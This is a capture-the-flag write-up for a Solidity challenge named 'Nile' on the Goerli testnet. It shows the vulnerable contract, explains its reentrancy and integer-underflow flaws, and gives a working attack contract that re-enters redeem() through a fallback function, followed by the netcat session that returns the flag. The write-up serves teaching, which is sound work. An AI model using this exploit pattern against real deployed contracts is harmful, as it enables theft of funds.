 # Setup
For this challenge and Andes we of course need an environment to test and deploy the contracts.
I used Remix IDE since it was convenient to get started: https://remix.ethereum.org/
For interacting with the blockchain I used the Metamask Firefox plugin.
These challenges were deployed on the Goerli Testnet so I also needed to get some Goerli Testnet ETH so I used this faucet to mine some: https://goerli-faucet.pk910.de/
All contracts were initially tested in the Remix VM which makes things a lot easier and faster since we dont actually need to put them on the blockchain before finding out we made errors or that our attack doesn't work.

# Nile
Here is the code for this challenge:
```js
pragma solidity ^0.7.6;


contract Nile {
    mapping(address => uint256) balance;
    mapping(address => uint256) redeemable;
    mapping(address => bool) accounts;

    event GetFlag(bytes32);
    event Redeem(address, uint256);
    event Created(address, uint256);
    
    function redeem(uint amount) public {
        require(accounts[msg.sender]);
        require(redeemable[msg.sender] > amount);

        (bool status, ) = msg.sender.call("");

        if (!status) {
            revert();
        }

        redeemable[msg.sender] -= amount;
        balance[msg.sender] += amount;
        emit Redeem(msg.sender, amount);
    }

    function createAccount() public {
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 100;
        accounts[msg.sender] = true;

        emit Created(msg.sender, 100);
    }

    function createEmptyAccount() public {
        // empty account starts with 0 balance
        balance[msg.sender] = 0;
        accounts[msg.sender] = true;
    }

    function deleteAccount() public {
        require(accounts[msg.sender]);
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 0;
        accounts[msg.sender] = false;
    }

    function getFlag(bytes32 token) public {
        require(accounts[msg.sender]);
        require(balance[msg.sender] > 1000);

        emit GetFlag(token);
    }
}
```

From a quick reading of the code it should be apparent that it is vulnerable to a reentrancy attack ([SWC-107](https://swcregistry.io/docs/SWC-107)).
We know this because it does call() on our sender and it does it after it checks the balance.
We can put code in our sender fallback function that when called will call the redeem() function again and since nothing has yet changed it will bypass those same checks.
The other thing to notice is that the balance in redeemable will underflow ([SWC-101](https://swcregistry.io/docs/SWC-101)) and become a very large number so we only need to do this once and after that we will have enough to call the getFlag function.

This is my solution:
```js
pragma solidity ^0.8.7;

interface INile {
    function redeem(uint amount) external;
    function createAccount() external;
    function createEmptyAccount() external;
    function deleteAccount() external;
    function getFlag(bytes32 token) external;
}

contract AttackNile {
    INile targetContract; // 0xd9145CCE52D386f254917e481eB44e9943F39138
    uint attackTried = 0;

    constructor(address _targetAddress) {
    	targetContract = INile(_targetAddress);
    }

    fallback() external {
        if(attackTried == 0){
            attackTried=1;
            targetContract.redeem(99);
        }
    }
    
    function attack(bytes32 token) public {
        attackTried = 0;
        targetContract.createAccount();
        targetContract.redeem(99);
        targetContract.redeem(10000);
        targetContract.getFlag(token);
    }
}
```

To get the flag we netcat to the host given to us, get the token, pass the token to our attack function, wait for the transaction to be confirmed and then tell the netcat session to check if the flag was emitted on the blockchain.
```
nc -v nile.chall.pwnoh.io 13379
Connection to nile.chall.pwnoh.io (3.132.58.34) 13379 port [tcp/*] succeeded!
Hello! The contract is running at 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af on the Goerli Testnet.
Here is your token id: 0xc4386ecaf58a2074fa56939b15257779
Are you ready to receive your flag? (y/n)
y
Here is the flag: buckeye{n0_s4fem4th_t1ll_s0l1d1ty_08}
```
